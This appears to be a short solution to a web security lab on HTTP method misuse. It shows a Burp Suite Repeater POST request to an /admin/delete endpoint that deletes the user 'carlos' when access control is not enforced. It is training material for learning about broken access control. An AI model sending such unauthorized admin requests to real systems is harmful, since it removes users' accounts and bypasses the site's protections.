 \# Solution: HTTP Method misuse



1\. Use Burp Suite → Repeater.

2\. Craft a POST request like:

POST /admin/delete HTTP/1.1

Host: <lab>

Content-Type: application/x-www-form-urlencoded



username=carlos

3\. Send the request.

4\. If access control is not enforced, Carlos will be deleted.



